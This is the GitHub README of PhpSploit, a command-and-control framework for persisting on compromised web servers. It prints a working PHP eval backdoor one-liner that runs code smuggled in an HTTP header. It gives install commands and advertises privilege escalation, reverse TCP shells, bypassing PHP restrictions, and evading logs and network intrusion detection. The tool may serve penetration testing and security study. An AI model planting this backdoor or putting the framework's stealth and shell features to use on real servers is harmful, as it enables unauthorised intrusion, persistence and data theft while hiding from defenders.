


<p align="center">
  <a href="https://github.com/nil0x42/phpsploit" alt="master">
    
  </a>
</p>

<h3 align="center">
    Full-featured C2 framework which silently persists on <br>webserver via polymorphic PHP oneliner
    <a href="https://twitter.com/intent/tweet?text=PhpSploit%2C%20Full-featured%20C2%20framework%20which%20silently%20persists%20on%20webserver%20via%20polymorphic%20PHP%20oneliner%20-%20by%20@nil0x42&url=https://github.com/nil0x42/phpsploit">
      
    </a>
</h3>
<br>

<p align="center">
  <a href="https://travis-ci.org/nil0x42/phpsploit">
    
  </a>
  <a href="https://requires.io/github/nil0x42/phpsploit/requirements/?branch=master">
    
  </a>
  <a href="https://app.codacy.com/app/nil0x42/phpsploit?utm_source=github.com&utm_medium=referral&utm_content=nil0x42/phpsploit&utm_campaign=Badge_Grade_Dashboard">
    
  </a>
  <a href="https://lgtm.com/projects/g/nil0x42/phpsploit/alerts/">
    
  </a>
  <a href="https://codecov.io/gh/nil0x42/phpsploit">
    
  </a>
  <a href="https://codeclimate.com/github/nil0x42/phpsploit/maintainability">
    
  </a>
</p>

<p align="center">
  <a href="https://github.com/vitalysim/Awesome-Hacking-Resources/blob/master/tools.md">
    
  </a>
  <a href="https://twitter.com/intent/follow?screen_name=nil0x42" target="_blank">
    
  </a>
</p>

<div align="center">
  <sub>
    Created by
    <a href="https://twitter.com/nil0x42">nil0x42</a> and
    <a href="https://github.com/nil0x42/phpsploit#contributors">contributors</a>
  </sub>
</div>

<br>

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

<p align="center">
  
</p>


#### Overview

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Quick Start

```sh
git clone https://github.com/nil0x42/phpsploit
cd phpsploit/
pip3 install -r requirements.txt
./phpsploit --interactive --eval "help help"
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Features

-   **Efficient**: More than 20 plugins to automate privilege-escalation tasks
    -   Run commands and browse filesystem, bypassing PHP security restrictions
    -   Upload/Download files between client and target
    -   Edit remote files through local text editor
    -   Run SQL console on target system
    -   Spawn reverse TCP shells

-   **Stealth**: The framework is made by paranoids, for paranoids
    -   Nearly invisible by log analysis and NIDS signature detection
    -   Safe-mode and common _PHP security restrictions bypass_
    -   Communications are hidden in HTTP Headers
    -   Loaded payloads are obfuscated to _bypass NIDS_
    -   http/https/socks4/socks5 **Proxy support**

-   **Convenient**: A robust interface with many crucial features
    -   Detailed help for any option (`help` command)
    -   _Cross-platform_ on both client and server.
    -   CLI supports auto-completion & multi-command
    -   Session saving/loading feature & persistent history
    -   Multi-request support for large payloads (such as uploads)
    -   Provides a powerful, highly configurable settings engine
    -   Each setting, such as user-agent has a _polymorphic mode_
    -   Customisable environment variables for plugin interaction
    -   Provides a complete plugin development API

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Supported platforms (as attacker):

-   GNU/Linux
-   Mac OS X

#### Supported platforms (as target):

-   GNU/Linux
-   BSD-like
-   Mac OS X
-   Windows NT

## Contributors

Thanks goes to these wonderful people ([emoji key](https://github.com/all-contributors/all-contributors#emoji-key)):
<!-- ALL-CONTRIBUTORS-LIST:START - Do not remove or modify this section -->
<!-- prettier-ignore-start -->
<!-- markdownlint-disable -->
<table>
  <tr>
    <td align="center"><a href="https://exdemia.com"><br /><sub><b>nil0x42</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=nil0x42" title="Code">💻</a> <a href="#infra-nil0x42" title="Infrastructure (Hosting, Build-Tools, etc)">🚇</a> <a href="#plugin-nil0x42" title="Plugin/utility libraries">🔌</a> <a href="https://github.com/nil0x42/phpsploit/commits?author=nil0x42" title="Tests">⚠️</a></td>
    <td align="center"><a href="https://github.com/shiney-wh"><br /><sub><b>shiney-wh</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=shiney-wh" title="Code">💻</a> <a href="#plugin-shiney-wh" title="Plugin/utility libraries">🔌</a></td>
    <td align="center"><a href="http://wapiflapi.github.io"><br /><sub><b>Wannes Rombouts</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=wapiflapi" title="Code">💻</a> <a href="#maintenance-wapiflapi" title="Maintenance">🚧</a></td>
    <td align="center"><a href="http://yurilz.com"><br /><sub><b>Amine Ben Asker</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=yurilaaziz" title="Code">💻</a> <a href="#maintenance-yurilaaziz" title="Maintenance">🚧</a></td>
    <td align="center"><a href="http://twitter.com/jnazario"><br /><sub><b>jose nazario</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=paralax" title="Documentation">📖</a> <a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Aparalax" title="Bug reports">🐛</a></td>
    <td align="center"><a href="http://wikisecure.net"><br /><sub><b>Sujit Ghosal</b></sub></a><br /><a href="#blog-sujit" title="Blogposts">📝</a></td>
    <td align="center"><a href="https://github.com/sohelzerdoumi"><br /><sub><b>Zerdoumi</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Asohelzerdoumi" title="Bug reports">🐛</a></td>
  </tr>
  <tr>
    <td align="center"><a href="https://github.com/tristandostaler"><br /><sub><b>tristandostaler</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Atristandostaler" title="Bug reports">🐛</a></td>
    <td align="center"><a href="https://github.com/rohantarai"><br /><sub><b>Rohan Tarai</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Arohantarai" title="Bug reports">🐛</a></td>
    <td align="center"><a href="https://triop.se"><br /><sub><b>Jonas Lejon</b></sub></a><br /><a href="#blog-jonaslejon" title="Blogposts">📝</a></td>
  </tr>
</table>

<!-- markdownlint-enable -->
<!-- prettier-ignore-end -->
<!-- ALL-CONTRIBUTORS-LIST:END -->
This project follows the [all-contributors](https://github.com/all-contributors/all-contributors) specification. Contributions of any kind welcome
